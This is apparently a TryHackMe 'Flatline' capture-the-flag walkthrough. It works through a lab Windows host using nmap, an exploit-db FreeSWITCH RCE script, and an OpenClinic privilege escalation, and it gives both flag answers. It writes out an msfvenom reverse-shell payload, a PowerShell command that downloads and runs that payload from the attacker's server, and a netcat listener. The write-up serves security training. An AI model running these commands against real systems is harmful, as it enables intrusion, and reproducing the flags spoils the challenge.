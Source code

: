 ## Flatline


1. Enumerate with nmap. We see that port 3389 is open and is running the service `ms-wbt-server`, which is RDP. We also see that port 8021 has Freeswitch running
```
$ sudo nmap -Pn -sS -A 10.10.122.186
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-07 13:42 EST
Nmap scan report for 10.10.122.186
Host is up (0.22s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE          VERSION
3389/tcp open  ms-wbt-server    Microsoft Terminal Services
| ssl-cert: Subject: commonName=WIN-EOM4PK0578N
| Not valid before: 2021-11-08T16:47:35
|_Not valid after:  2022-05-10T16:47:35
|_ssl-date: 2022-03-07T18:42:40+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: WIN-EOM4PK0578N
|   NetBIOS_Domain_Name: WIN-EOM4PK0578N
|   NetBIOS_Computer_Name: WIN-EOM4PK0578N
|   DNS_Domain_Name: WIN-EOM4PK0578N
|   DNS_Computer_Name: WIN-EOM4PK0578N
|   Product_Version: 10.0.17763
|_  System_Time: 2022-03-07T18:42:39+00:00
8021/tcp open  freeswitch-event FreeSWITCH mod_event_socket
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized
Running (JUST GUESSING): AVtech embedded (87%)
Aggressive OS guesses: AVtech Room Alert 26W environmental monitor (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 3389/tcp)
HOP RTT       ADDRESS
1   89.27 ms  10.13.0.1
2   ... 3
4   236.73 ms 10.10.122.186

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.21 seconds
```

2. Use metasploit's `scanner/rdp/rdp_scanner` module to scan the machine for any RDP vulnerabilities. We see that it requires [NLA (Network Level Authentication)](https://docs.microsoft.com/en-us/windows-server/remote/remote-desktop-services/clients/remote-desktop-allow-access), so there's not much we can do with RDP
```
msf6 auxiliary(scanner/rdp/rdp_scanner) > exploit

[*] 10.10.122.186:3389    - Detected RDP on 10.10.122.186:3389    (name:WIN-EOM4PK0578N) (domain:WIN-EOM4PK0578N) (domain_fqdn:WIN-EOM4PK0578N) (server_fqdn:WIN-EOM4PK0578N) (os_version:10.0.17763) (Requires NLA: Yes)
[*] 10.10.122.186:3389    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

3. Search for any freeswitch vulnerabilities to find this [python script](https://www.exploit-db.com/exploits/47799). Run it with `python3 <script name> <ip address> <command>` and we see that it works.
```
$ python3 freeswitch_rce.py 10.10.122.186 whoami
Authenticated
Content-Type: api/response
Content-Length: 25

win-eom4pk0578n\nekrotic
```

4. Create a payload with msfvenom `msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip address> LPORT=4444 -f exe > payload1.exe`. Then create an http server to serve the payload `python3 -m http.server`. Set up a netcat listener with `nc -nvlp 4444`. Finally, download and invoke the payload on the target machine with `python3 freeswitch_rce.py <target ip address> "powershell.exe Invoke-WebRequest -Uri http://<attacker ip address>:8000/payload1.exe -OutFile ./payload1.exe && .\payload1.exe"`

5. After getting the shell, look around and find both user.txt and root.txt in `C:\Users\Nekrotic\Desktop`. Using `more user.txt` gives us `THM{64bca0843d535fa73eecdc59d27cbe26}`. We can't view root.txt because we have insufficient permissions.

6. After doing some more enumeration we get to `C:\Users\Administrator\Desktop` and find two files. OpenClinic seems to be another piece of software that is installed on the pc. After doing some digging we find that OpenClinic has a [vulnerability](https://www.exploit-db.com/exploits/50448) that lets us escalate our privileges. 
```
09/11/2021  07:18    <DIR>          .
09/11/2021  07:18    <DIR>          ..
08/11/2021  18:24       108,048,384 FreeSWITCH-1.10.1-Release-x64.msi
08/11/2021  06:05       413,584,335 OpenClinicSetup5.194.18_32bit_full_fr_en_pt_es_nl.exe
               2 File(s)    521,632,719 bytes
               2 Dir(s)  50,541,469,696 bytes free
```

7. Follow the guide precisely: rename the original mysqld.exe binary, create your own reverse shell binary (make sure to use a port that isn't already being used), server it to the target machine with the http server, rename it to mysqld.exe, start a listener on the port with netcat, and then restart the target machine with `shutdown /r /t 1`

8. Once we get a shell, print out the root.txt file to get `THM{8c8bc5558f0f3f8060d00ca231a9fb5e}`
